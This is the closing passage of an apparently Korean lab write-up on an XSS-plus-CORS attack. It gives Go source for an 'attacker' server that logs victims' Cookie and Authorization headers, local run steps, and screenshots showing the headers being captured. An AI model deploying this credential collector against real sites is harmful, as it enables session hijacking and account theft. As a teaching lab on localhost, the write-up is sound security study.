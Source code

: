         "github.com/gin-contrib/cors"
        "github.com/gin-gonic/gin"
      )

      func main() {
        router := gin.Default()

        router.Use(cors.New(
          cors.Config{
            AllowOrigins:     []string{"http://localhost:8888"},
            AllowMethods:     []string{"POST"},
            AllowHeaders:     []string{"Origin", "Cookie", "Authorization"},
            AllowCredentials: true,
            MaxAge:           12 * time.Hour,
          }))

        router.POST("trap", func(c *gin.Context) {
          fmt.Println("Cookie", c.Request.Header["Cookie"])
          fmt.Println("Authorization", c.Request.Header["Authorization"])
          c.JSON(http.StatusOK, gin.H{"code": 0, "msg": "success"})
        })

        router.Run(":8889")
      }
    ```
- 실행방법
    - 게시판A 서버 실행
        - ```bash
            # 새 bash shell을 엶
            cd victim_server
            go run main.go
            ```
    - 공격자B 서버 실행
        - ```bash
            # 새 bash shell을 엶
            cd attacker_server
            go run main.go
            ```
    - 브라우저에서 script의 fetchAPI를 이용하여 공격자B 서버에 POST 요청
        - 브라우저를 켬
        - http://localhost:8888/victim/community 로 접속
        - (접속하면 자동으로 http://localhost:8889/trap 으로 POST 요청됨)
        - 공격자B 서버 bash shell을 관찰하여 endpoint trap에 요청이 들어왔는지 확인  
          그리고 요청에 담긴 Cookie 헤더와 Authorization 헤더 값을 확인

## 실험결과
  - 공격 성공
    - 게시판A 사용자의 Cookie와 Authorization 헤더가 공격자B 서버로 넘어왔다.
    - 게시판A 사용자의 네트워크 처리 상황  
      - <a href="/assets/img/2021-08-25-xss-cors-example/00-request-trap-success.jpg" target="_blank"><img src="/assets/img/2021-08-25-xss-cors-example/00-request-trap-success.jpg" width="100%"></a> 
    - 공격자B 서버 쉘 로그
      - <a href="/assets/img/2021-08-25-xss-cors-example/01-listen-trap-request-success.jpg" target="_blank"><img src="/assets/img/2021-08-25-xss-cors-example/01-listen-trap-request-success.jpg" width="100%"></a> 
